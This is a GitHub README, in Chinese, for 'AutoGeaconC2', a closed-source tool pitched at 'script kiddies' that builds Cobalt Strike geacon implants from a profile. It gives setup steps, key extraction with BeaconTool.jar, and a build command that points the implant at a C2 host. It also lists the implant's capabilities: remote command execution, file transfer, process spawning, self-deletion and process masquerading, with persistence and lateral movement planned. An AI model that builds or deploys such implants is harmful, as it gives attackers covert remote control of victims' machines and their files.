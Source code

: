 ![AutoGeaconC2](https://socialify.git.ci/TryGOTry/AutoGeaconC2/image?description=1&forks=1&issues=1&language=1&name=1&owner=1&stargazers=1&theme=Light)
# AutoGeaconC2

为了方便脚本小子的工具：一键读取Profile自动化生成geacon实现跨平台上线CobaltStrike

Ps：为了增加分析成本，本项目不准备开源。

已适配大量profile配置，如遇到问题，请提交issues！

已适配猫猫cs,以及cdn上线.
# How To Use
1.下载releases中的AutoGeaconC2.cna，然后在cs客户端中导入cna

2.在服务端下载releases中根据系统下载AutoGeaconC2

3.下载releases中的BeaconTool.jar用于生成rsa的key。 java -jar BeaconTool.jar -i .cobaltstrike.beacon_keys

4.把上面生成的rsa的key填入AutoGeaconC2中生成Geacon客户端
```
AutoGeaconC2.exe -rsa "xxx" -profile c.profile -u https://127.0.0.1
```

## CobaltStrike Commands
已实现的功能如下
```shell
1.命令执行 执行shell version 查看当前客户端版本
2.文件管理(查看,上传,下载)
3.Sleep
4.Cd
5.Mkdir
6.Pwd
7.Cp
8.Mv
9.tasklit
10.spawn 执行shell spawn  需要当前进程文件存在.spawn上来的进程名中会包含(fork)
```
## Usage

```shell
                _         _____                             _____ ___  
     /\        | |       / ____|                           / ____|__ \ 
    /  \  _   _| |_ ___ | |  __  ___  __ _  ___ ___  _ __ | |       ) |
   / /\ \| | | | __/ _ \| | |_ |/ _ \/ _` |/ __/ _ \| '_ \| |      / / 
  / ____ \ |_| | || (_) | |__| |  __/ (_| | (_| (_) | | | | |____ / /_ 
 /_/    \_\__,_|\__\___/ \_____|\___|\__,_|\___\___/|_| |_|\_____|____|
                                                                       

Usage:
  # 是否运行后自删除，开启后无法执行spawn命令
  -delete
        DeleteSelf   
  # 进程伪装的名称，暂未实现，bug较多
  -processName string
        ProcessName (default "kwoker")
  # 指定读取的profile文件
  -profile string
        Load Your Profile
  # cs服务端的.cobaltstrike.beacon_keys中读取出来的public key,需要base64编码
  -rsa string
        base64 rsa public key.
  # 保存的geacon文件名
  -s string
        Save name (default "Mgeacon")
  # CobaltStrike Host地址，就是监听器中的host地址,需加http://或者https://,有端口的加端口
  -u string
        CobaltStrike Host,Like:https://127.0.0.1:8443
```

## Supported Systems
| Arch  | Windows | Linux | MacOS |
|-------|---|---| --- |
| amd64 | ❌      | 🐕    | ❌ |
| 386   | ❌      | ❌    | ❌ |

根据项目热度(star)后续更新更多系统和更多功能

## TODO
| 功能      | Windows | Linux | MacOS |
|---------|---|---| --- |
| 内存执行elf | ❌      | ❌    | ❌ |
| Job管理   | ❌      | ❌    | ❌ |
| 权限维持    | ❌      | ❌    | ❌ |
| 横向功能    | ❌      | ❌    | ❌ |

## 感谢以下项目

[geacon](https://github.com/darkr4y/geacon)

[geacon_pro](https://github.com/H4de5-7/geacon_pro)

[CrossC2](https://github.com/gloxec/CrossC2)
